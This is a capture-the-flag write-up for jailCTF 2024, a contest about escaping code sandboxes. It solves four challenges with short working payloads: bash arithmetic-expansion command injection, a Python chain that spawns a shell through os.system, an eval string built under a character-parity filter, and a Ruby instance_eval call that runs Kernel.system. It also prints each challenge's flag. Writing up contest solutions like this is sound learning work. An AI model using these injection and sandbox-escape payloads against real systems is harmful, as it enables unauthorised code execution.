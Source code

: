 # jailCTF 2024

https://ctf.pyjail.club/

| Place    | Score |
| -------- | ----- |
| 64/715 | 951  |

Very interesting CTF, focusing on jailbreaking techniques.

## blind-calc

The source code probably looks like this

```shell
read -p "Enter math > " expr
a=$(( \
expr \
))
echo $a
```

ref: https://www.nccgroup.com/us/research-blog/shell-arithmetic-expansion-and-evaluation-abuse/

**tl;dr:** `arr[$(COMMAND)]`

<details>
  <summary>FLAG</summary>
  <tt>jail{blind-calc_9c701e8c09f6cc0edd6}</tt>
</details>

## filter'd

```python
a=input;f(a())
M=999;f(a())
__import__('os').system('sh')
```

<details>
  <summary>FLAG</summary>
  <tt>jail{can_you_repeat_that_for_me?_aacb7144d2c}</tt>
</details>

## parity 1

The input string's ascii value must be even, odd, even, odd,....

Ultimately, we want to build `eval("eval(input()")`. Because the ascii value of "eval" is odd, even, odd, even.

The table lists import elements we can use to build the payload.

| char          | ord%2 |
| ------------- | ----- |
| `(`           | 0     |
| `)`           | 1     |
| `tab` or `\t` | 1     |
| `"`           | 0     |
| ` `           | 0     |
| `'`           | 1     |

And there are some Python syntax that allow us to do so.

- String concat: `"cat"'dog'` return `"catdog"`

- In the eval's input string:
  
  - Allowing tab and space inside parentheses
  
  - Allowing tab and space between funtion name and parentheses
  
  - Allowing tab and space in the start.

After some painful process, I construct a string that can let us execute arbitrary python code:

` eval\t(\' eval\' \'(\'"i"\'n\' + \'p\'"u"\'t\' \'(\'")"\' ) \' )`

<details>
  <summary>FLAG</summary>
  <tt>jail{parity_41f5812e8c0cd9}</tt>
</details>

## SUS-Calculator

The user input can control which instance method to use, however, the arguments must be accept by the method.
The payload format will loog like
```
<argument 1> <instance method> <argument 2>
```

Luckily, methods `instance_eval` accept two arguement, the payload is 

```
Kernel.system("sh") instance_eval 1
```
<details>
  <summary>FLAG</summary>
  <tt>jail{me_when_i_uhhh_escape}</tt>
</details>


